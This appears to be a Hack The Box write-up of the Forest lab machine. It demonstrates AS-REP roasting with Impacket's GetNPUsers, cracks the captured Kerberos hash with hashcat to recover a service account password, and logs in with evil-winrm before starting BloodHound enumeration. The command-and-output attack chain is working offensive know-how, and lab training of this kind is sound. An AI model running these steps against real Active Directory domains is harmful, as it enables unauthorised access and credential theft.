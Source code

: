 With pre-authentication, a user enters their password, which encrypts a time stamp. The Domain Controller will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.
# Foothold
```bash
**GetNPUsers.py HTB.LOCAL/ -dc-ip 10.129.63.155 -no-pass -usersfile users**
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/home/usef/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:18bef812450fba6d540cb0dab8b1abea$e4289a48d9c74dcf931fb1f906bacb5d0f2d638053249696a271435923c973f7c0205a6e6a85c06665b23fb3db926f8b78a06e2250ceae5e2cf0d9f6d94a50c78200ffb33aa7c8ef0e191c01eb1d049e02c11dfb5230bdd4784374d6a3806402a8f84fff3022a6e8a2402672b4d78c2eef5c8868d04d54e7d5623dd1df97f523c87acf66ab7c50cd12a16c2fc65b67a3bd8ae16fcafd1778c0e992c3ed22a3e91bbbd05ade5e8f9a8a52b368cfeded0a167eee07f93a8809204eeecbee9ce03a21af27a1657eae18d6305e6fa6b878690a7626299983dc7d8069cee685ab953ab6a722c5a390
```
let's crack it
```bash
**hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt**
<[snip]>
$krb5asrep$23$svc-alfresco@HTB:37a6233a6b2606aa39b55bff58654d5f$87335c1c890ae91dbd9a254a8ae27c06348f19754935f74473e7a41791ae703b95ed09580cc7b3ab80e1037ca98a52f7d6abd8732b2efbd7aae938badc90c5873af05eadf8d5d124a964adfb35d894c0e3b48$
5f8a8b31f369d86225d3d53250c63b7220ce699efdda2c7d77598b6286b7ed1086dda0a19a21ef7881ba2b249a022adf9dc846785008408413e71ae008caf00fabbfa872c8657dc3ac82b4148563ca910ae72b8ac30bcea512fb94d78734f38ae7be1b73f8bae0bbfb49e6d61dc9d06d055004
d29e7484cf0991953a4936c572df9d92e2ef86b5282877d07c38:s3rvice
<snip>
```
let try to connect to WinRM using the svc-alfresco user
```bash
**evil-winrm -u svc-alfresco -p 's3rvice' -i 10.129.63.155**  
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/14/2025  10:38 AM             34 user.txt
```
# privilige escalation
### Bloodhound
let's try to enumerate the domain using the user svc-alfrsco.
```bash
**bloodhound-python  -u svc-alfresco -p s3rvice -ns 10.129.63.155 -d htb.local -c all**
```
![Screenshot from 2025-02-15 01-00-32](https://github.com/user-attachments/assets/f7d79e6e-0a5f-41b9-904d-8f52c2d713e2)
let try to see it the user have any rights, we go to Outbound object control seciotn and we see that the user have 88 Group Delegated Object Control	rights.
let's click on transitive object control to see what can we do with those rights